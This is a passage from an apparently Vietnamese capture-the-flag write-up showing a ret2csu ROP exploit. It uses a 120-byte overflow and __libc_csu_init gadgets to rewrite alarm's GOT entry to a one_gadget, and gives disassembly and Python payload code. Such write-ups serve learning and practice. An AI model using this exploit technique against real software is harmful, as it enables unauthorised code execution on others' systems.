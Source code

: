 -  và ta cũng sẽ cần lệnh call đến got mà ta đã setup , ta sẽ đặt **rbx** thành 0 cho dễ tính toán 

```cs
0x00000000004012a9 <+73>:    call   QWORD PTR [r15+rbx*8]
```

- ta sẽ setup change libc@got -> one_gadget như sau : 

```cs 
og = 0xebd38

gadget = 0x40117C #  add dword ptr [rbp - 0x3d], ebx ; nop ; ret

rbx = (og - libc.sym.alarm)
"""
0x00000000004012a0 <+64>:    mov    rdx,r14
0x00000000004012a3 <+67>:    mov    rsi,r13
0x00000000004012a6 <+70>:    mov    edi,r12d
0x00000000004012a9 <+73>:    call   QWORD PTR [r15+rbx*8]
0x00000000004012ad <+77>:    add    rbx,0x1
0x00000000004012b1 <+81>:    cmp    rbp,rbx
0x00000000004012b4 <+84>:    jne    0x4012a0 <__libc_csu_init+64>
0x00000000004012b6 <+86>:    add    rsp,0x8
0x00000000004012ba <+90>:    pop    rbx
0x00000000004012bb <+91>:    pop    rbp
0x00000000004012bc <+92>:    pop    r12
0x00000000004012be <+94>:    pop    r13
0x00000000004012c0 <+96>:    pop    r14
0x00000000004012c2 <+98>:    pop    r15
0x00000000004012c4 <+100>:   ret
"""
rop_chain_pop = 0x00000000004012ba
rop_chain_mov = 0x00000000004012a0

payload = b'a'*120
# control rbp and rbx to add got -> execve
payload += p64(rop_chain_pop) + p64(rbx) + p64(exe.got.alarm+0x3d) + p64(0)*4 + p64(gadget) + p64(exe.sym.vuln)
```

- ta thấy lúc này libc@got của alarm đã thay đổi thành one_gadget 

![hehe](/assets/images/og.png)
